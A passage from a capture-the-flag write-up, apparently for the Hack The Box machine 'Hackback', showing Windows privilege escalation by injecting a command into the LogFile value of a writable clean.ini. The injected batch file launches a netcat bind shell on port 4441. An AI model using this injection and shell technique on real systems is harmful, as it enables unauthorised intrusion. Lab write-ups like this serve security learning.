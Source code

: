 ```
C:\util\scripts>type clean.ini
type clean.ini
[Main] 
LifeTime=100 
LogFile=c:\util\scripts\log.txt
Directory=c:\inetpub\logs\logfiles

C:\util\scripts>type dellog.ps1
type dellog.ps1
Access is denied.
```

I can't read the `dellog.ps1` script but the `clean.ini` is writable by user `simple` since he's a member of the `project-managers` group:

```
C:\util\scripts>icacls clean.ini
icacls clean.ini
clean.ini NT AUTHORITY\SYSTEM:(F)
          BUILTIN\Administrators:(F)
          HACKBACK\project-managers:(M)

Successfully processed 1 files; Failed processing 0 files
```

The `LogFile` parameter is vulnerable to command injection. The powershell script that wipes the logs uses that parameter to pipe the output of another command so we can use the `&` character to execute arbitrary commands after the log file has been written to.

I uploaded the following batch file that binds a shell on port 4441. The `snow.txt` file is just there so I can check if the batch file was run by the scheduler.

```
echo check > c:\programdata\snow.txt
C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe -L -p 4441
```

```
# ./hackback_write.py "/programdata/a.bat" a.bat
```

Then I modified the `clean.ini` as follows:

```
[Main]
LifeTime=9999
LogFile=c:\util\scripts\log.txt & c:\programdata\a.bat
Directory=c:\users\hacker
```

I couldn't upload it directly to `c:\util\scripts\clean.ini` so I copied it to `\programdata` first then copied it over from the command line.

```
root@ragingunicorn:~/htb/hackback# ./hackback_write.py "/programdata/clean.ini" clean.ini
```
